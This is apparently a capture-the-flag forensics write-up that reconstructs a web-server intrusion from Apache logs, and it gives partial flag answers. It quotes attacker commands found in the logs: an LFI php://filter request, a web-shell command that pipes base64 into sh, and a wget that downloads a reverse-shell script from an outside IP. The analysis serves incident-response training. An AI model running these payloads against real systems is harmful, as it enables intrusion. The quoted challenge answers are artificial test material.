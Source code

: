 - the CWE of the first vulnerability used by the attacker,

- the CWE of the second vulnerability used by the attacker,

- the IP address of the server from which the attacker retrieves their tools, and

- the arbitrary file path used for persistence.

Example data:

- CWE of the first vulnerability: SQL Injection → CWE-89

- CWE of the second vulnerability: Cross-Site Scripting → CWE-79

- IP: 13.37.13.37

- File path: /etc/passwd

Validation format:
RM{CWE-89:CWE-79:13.37.13.37:/etc/passwd}

Analyze the logs via the SOC

Identify Indicators of Compromise (IoC) and Indicators of Attack (IoA)

### SOC platform

The SOC platform is a web application that allows us to analyze the logs of the attack. We can filter the logs by date, IP address, and other parameters. [OpenSearch-Dashboards](https://github.com/opensearch-project/OpenSearch-Dashboards) is used to analyze the logs.
We have two index patterns to analyze:

- `apache-*` being the logs of the web server
- `systemd-*` being the logs of the systemd service

### Apache logs

Upon starting the investigation on the logs, we looked at the different peaks of activities. While the earliest peak did not seem to hold anything interesting, it's the second one that has something interesting and it's the usage of Fuzz Faster U Fool (FFUF) in the logs as we can see from the user-agent used, done by the `10.143.17.101` IP address.
This tool is used to do some dirbusting, and we could see that the attacker is trying to find some files on the server during these peaks of activities.
Once it gets to the `/admin-page` it attempts to authenticate multiple times but fails. It then pivots to exploiting a LFI (LOCAL FILE INCLUSION) vulnerability, with the following request : `/?lang=php://filter/read=convert.base64-encode&page=resource=index` allowing the attacker to read the contents of the `index.php` file, and succeeds doing so. He also does it with the `config.php` and `db/connect.php` files.
After doing so, the attacker manages to authenticate on the `/admin-page` page. Once on this page, we can see that, after multiple failed attempts, the attacker manages to upload a `ev1L.php.png` file on the server, and then sends commands from it, like with this query for instance `?cmd=echo%10%27bHMgLWxhIA==%27|base64%20-d|sh`, and all of these come from the same IP address (`10.143.17.101`).
We can assume that one of the CWE is CWE-98, which is PHP File Remote Inclusion, and the second one is CWE-434, which is Unrestricted Upload of File with Dangerous Type. (multiple other CWEs are possible as I tested while making the flag, but for the sake of the challenge, we will assume these two).
Finally, we can decrypt the base64 commands that have been executed, and we get some `pwd`, `id`, and more, but most importantly, we have these two commands :  `chmod +x s1mpl3-r3vsh3ll-vps.sh` and `wget http://163.172.67.201:49999/s1mpl3-r3vsh3ll-vps.sh` which are used to download a reverse shell on the server, and making it executable. Thus, we have the CWEs and the IP, we just need to find the file path used for persistence.
